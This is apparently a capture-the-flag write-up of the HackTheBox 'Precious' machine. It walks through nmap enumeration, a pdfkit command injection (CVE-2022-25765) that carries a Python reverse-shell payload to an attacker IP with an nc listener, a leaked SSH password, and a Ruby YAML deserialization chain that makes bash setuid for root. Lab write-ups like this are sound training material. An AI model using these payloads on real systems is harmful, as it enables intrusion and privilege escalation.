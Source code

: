 ```yaml
---
title: <img width="50" height="50" alt="front-page port 80-shoopyu" src="https://user-images.githubusercontent.com/95465072/209340923-763cc8d2-e9fa-4afb-b2c5-3b7edc1b0851.png"> Precious  | HackTheBox | Easy
date: 2022-10-21 00:00:02 +730
categories: [Write Up, HackTheBox]
tags: [pdfkit, web, http, hackthebox, ctf, easy, walkthrough, precious] # TAG names should always be lowercase


---
```


-------------------


<img width="590" alt="precious-htb" src="https://user-images.githubusercontent.com/95465072/208431959-7e9254d5-7d6b-46f5-8e5f-a257729a6eb2.png">


[HackTheBox / Precious - machine!](https://app.hackthebox.com/machines/513)

-------------------


## Enumeration {nmap}

```sh
sudo nmap -sV -sC <target-ip>
```

### Result:
```
┌──(root㉿kali)-[/home/local_host/Desktop/machines/precious-HTB]
└─# nmap -sV -sC 10.10.11.189                 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-10 08:28 EST
Nmap scan report for 10.10.11.189
Host is up (0.51s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.86 seconds
```

## Web Reconnaissance

So Let’s first enumerate port 80. The index page looks like this. Page source contains nothing useful.

![80-precious](https://user-images.githubusercontent.com/95465072/207928050-7eb4dcda-200c-49f3-99db-6337026dd3ca.png)



![error-1](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/125783410/2aa4ce2a-70b6-4270-9b26-2e5c55449e41)

                                                                         

The web server appears to offer a service that converts web pages into PDF files. Let’s test this functionality out.



```sh
python3 -m http.server --bind 127.0.0.1 80
```
Once your server is running, go back to precious.htb and enter the IP address and port number your server is running on, and click submit. As expected, a pdf file should be downloaded to your machine. Mine looks like this:

![error2](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/125783410/08b7444b-6967-4698-831f-33aab3c20a96)


####   Let's check the metadata of this!!
```
┌──(root㉿kali)
|
└─# exiftool 61fs66gu9di2n46jugnn8n21hfgfj4fg.pdf
ExifTool Version Number         : 12.51
File Name                       : 61fs66gu9di2n46jugnn8n21hfgfj4fg.pdf
Directory                       : .
File Size                       : 18 kB
File Modification Date/Time     : 2022:12:10 08:35:39-05:00
File Access Date/Time           : 2022:12:10 08:35:52-05:00
File Inode Change Date/Time     : 2022:12:10 08:35:39-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```           
What’s interesting to us here is that the file is generated by **pdfkit v0.8.6.** a PDF document generation library. Doing a quick google search looking for any known vulnerabilities we find ```CVE-2022–25765```


## Exploit

### Payload
```sh
http://xx.xx.xx.xx/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.af_inet,socket.sock_stream);s.connect(("10.10.14.21",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```


### Listener 
```sh
nc -lnvp 9001
```

![error-3](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/125783410/6c014a2f-f86a-4c20-aed2-1cc83497dccd)


Looking around a bit more, we find a file in /home/ruby/.bundle directory called config. Displaying the contents of config reveals the password for user henry

## Foothold

As you can see, we managed to log into the server as the user ruby. Navigating to the /home directory, we find two directories. One for our ruby user, and one for a user called henry. Inside henry’s directory we can see a file called user.txt. That’s got to be our first flag. Unfortunately, we can’t access it yet


![4](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/125783410/319140e1-0bf1-43d8-b213-450f1ccaf701)



instead we got password for henry's account ```Q3c1AqGHtoI0aXAYFH```

```sh
ssh henry@<ip-addr>
```

## Privilege Escalation:

![5](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/125783410/89b02b5e-c4aa-4397-a057-f566c6e2e647)


It appears that henry can run the file update_depencies.rb **as root**. Use cat to take a look at the file

![6](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/125783410/e0dbfef5-4180-4775-928e-b8d6bd400ac4)


[click here to copy the payload](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565)
```
create a file called dependencies.yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s /bin/bash
         method_id: :resolve
```

> **note** : Replace the id with ```chmod u+s /bin/bash```
 
Run the file
```sh
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
![8](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/125783410/ab288969-6c69-4b6e-a05d-7f4da2bcef4a)


&nbsp;
&nbsp;

# Congragulations You got the root access!!

**USER FLAG**
```75fb440c0ef7fd22c28f************```


**ROOT FLAG**
```6e8dfa9c1c1968383f0c************```

---------------------
